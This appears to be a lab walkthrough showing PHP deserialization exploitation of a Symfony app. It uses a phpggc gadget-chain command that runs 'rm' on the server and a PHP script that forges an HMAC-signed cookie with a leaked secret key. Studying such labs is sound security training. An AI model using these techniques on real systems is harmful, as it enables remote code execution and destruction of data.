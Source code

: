 
First of all, we know we are in PHP because the token is a serialized PHP object:
![](imgs/php_gadget_chain.png)
Also, if we send a bad crafted cookie, a Symfony error appears, leaking the version: 
![](imgs/php_gadget_chain-1.png)

We can use this to create a PHP object for Symfony, with the phpggc tool:
`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`
![](imgs/php_gadget_chain-4.png)
This will generate a Base-64 encoded serialized object that exploits an RCE gadget chain in Symfony to delete the file.

But we need to hash the command with a key, as Symfony has this structure in the cookies. We need the SecretKey for this, but a developer leaked the key information: 
![](imgs/php_gadget_chain-2.png)
In this route we can see the key information: 
![](imgs/php_gadget_chain-3.png)

With this information we can craft the cookie with the following PHP script: 
```php
<?php $object = "OBJECT-GENERATED-BY-PHPGGC"; 
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP"; 
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}'); 
echo $cookie;
```
![](imgs/php_gadget_chain-5.png)
This will output a valid, signed cookie to the console, with the expected format. 
![](imgs/php_gadget_chain-6.png)

Attaching this cookie as the request gives  us the completion of the lab:
![](imgs/php_gadget_chain-7.png)![](imgs/php_gadget_chain-8.png)